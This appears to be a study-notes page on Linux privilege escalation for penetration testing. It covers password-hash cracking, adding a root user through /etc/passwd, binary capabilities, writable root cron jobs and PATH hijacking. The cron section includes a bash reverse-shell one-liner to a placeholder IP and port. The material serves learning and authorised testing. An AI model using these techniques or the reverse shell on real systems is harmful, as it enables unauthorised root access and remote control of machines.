 From here the procedure depends on which commands are available for us to use. One way for example could be to [[Unshadow]] and use [[John The Ripper]] to try and get the plain text passwords. Or To add a new user with hopefully root privileges by using [[Openssl]] to create the hash of a new password and then add it into the `/etc/passwd` file.

## Capabilities
Another method system administrators can use to increase the privilege level of a process or binary is through Capabilities. These can help manage privileges at a more granular level, if an administrator doesn't want to give a user higher privileges, they can change the capabilities of a binary to allow it to get trough its task without needing a higher privilege user. 
We can see which binaries have enabled capabilities by using
```sh
getcap -r / 2>/dev/null
```
Which would result in all the binaries with have capabilities, we are specially interested in the ones with `cap_setuid` as these can often result in escalation. For methodology refer to [GOATbins](https://gtfobins.github.io/). Even though these programs have the SUID capability, they may not have the SUID bit enabled, so they will not appear when enumerating for SUID.

## Cron Jobs
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. The idea being, if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Each user on the system has their crontab file and can run specific tasks whether they are logged in or not. Any user can read the file keeping system-wide cron jobs under `/etc/crontab`. 
Here we can find every cron job configured by a user. We can then go and check those scripts to see if the can be modified in any way to instead run code that will allow us to escalate. The scripts will have to use the tools available on the target system. Some things to note:
- The command syntax will vary depending on the available tools (maybe we won't be able to use `nc` as it may not support the `-e` option)
- We should always prefer to start reverse shells, as we do not want to compromise the system integrity during a real pentest.

An example of a reverse shell for a .sh file would be something like
```sh
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```
NOTE: remember to check if the file can be executed. If not we can use
```sh
chmod +x FILE
```
to make it so it can be ran.

Another case, although similar, is if a old cron job is still set up, in this case the original file could have been removed, if so we can create a new file in the original path so that the new file is executed with the reverse shell

## PATH
If a folder for which a user has write permissions is located in the PATH, we could potentially hijack an application to run a script. PATH in linux is an environmental variable that tells the operating systems where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, linux will start searching in folders defined under PATH.
We can check it with either:
```sh
env
```
or for a more direct result
```sh
echo $PATH
```